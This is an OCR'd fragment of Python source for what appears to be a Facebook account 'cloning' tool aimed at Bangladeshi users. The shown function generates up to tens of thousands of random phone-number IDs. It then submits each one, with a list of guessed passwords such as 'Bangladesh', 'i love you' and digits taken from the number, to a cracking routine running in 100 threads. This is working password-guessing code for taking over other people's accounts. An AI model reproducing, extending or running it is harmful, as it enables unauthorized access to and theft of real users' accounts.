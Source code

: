             manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ------------------------------------------------------------------------------------------------------------------")

#RANDOM BD     
def sudair_bd():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    sudair_Hasan(logo)
    sudair_Hasan(f' [{xr}^{x}] Example>: {xr}019,017,018,016,015{x}')
    sudair_Hasan(" --------------------------------------------------------------------------------------")
    rk1 = '01'
    code = random.choice([rk1])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    sudair_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m------------------------------------------------------------------------------------------------------------------ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(9))
        user.append(nmp)
    os.system("clear")
    sudair_Hasan(logo)
    passx = 0
    HamiiID = []
    sudair_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        sudair_Hasan('\033[1;97m====================================================')
        sudair_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        sudair_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        sudair_Hasan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[3:],code+love,love[1:],'Bangladesh','bangladesh','i love you','free fire','freefire']
            uid = code+love
            for sudair in HamiiID:
                pwx.append(sudair)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} --------------------------------------------------------------------------------------")
